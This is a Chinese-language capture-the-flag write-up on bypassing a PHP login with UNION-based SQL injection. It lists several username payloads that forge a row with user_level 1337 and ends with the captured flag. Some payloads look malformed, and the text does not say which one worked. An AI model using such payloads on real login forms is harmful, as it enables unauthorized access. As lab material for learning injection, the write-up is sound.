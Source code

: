 # Injection 2
給你php原始碼，要你使用injection登入，hint說：創造一個假的query結果，於是想到UNION。要拿到flag的關鍵語句：
 1. SELECT返回結果只能有1個才能進入給flag的程式碼
 2. 表格user的attribute: user_level要>=1337

於是, 使用：
 * username = hehe' UNION SELECT 'hehe' as username, '123' as password, 1337 as user_level#
 * password = 123

登入，可是登入失敗，原因是UNION後面加的SELECT和前面的SELECT的column沒對到，可能是數目不對或是順序不對，試試加一個column：
 * username = hehe' UNION SELECT null, 'hehe' as username, '123' as password, 1337 as user_level#
 * username = hehe' UNION SELECT 'hehe' as username, null, '123' as password, 1337 as user_level#
 * username = hehe' UNION SELECT 'hehe' as username, '123' as password, null, 1337 as user_level#
 * username = hehe' UNION SELECT 'hehe' as username, '123' as password, 1337 as user_level, null#

全失敗，加兩個column：
 * username = hehe' UNION SELECT　null, null, 'hehe' as username, '123' as password, 1337 as user_level#
 * username = hehe' UNION SELECT null, 'hehe' as username, null, '123' as password, 1337 as user_level#
 * username = hehe' UNION SELECT null, 'hehe' as username, '123' as password, null, 1337 as user_level#
 * username = hehe' UNION SELECT null, 'hehe' as username, '123' as password, 1337 as user_level, null#
 * username = hehe' UNION SELECT, 'hehe' as username, null, null, '123' as password, 1337 as user_level#
 * username = hehe' UNION SELECT, 'hehe' as username, null, '123' as password, null, 1337 as user_level#

成功！！flag = flag_nJZAKGWYt7YfzmTsCV
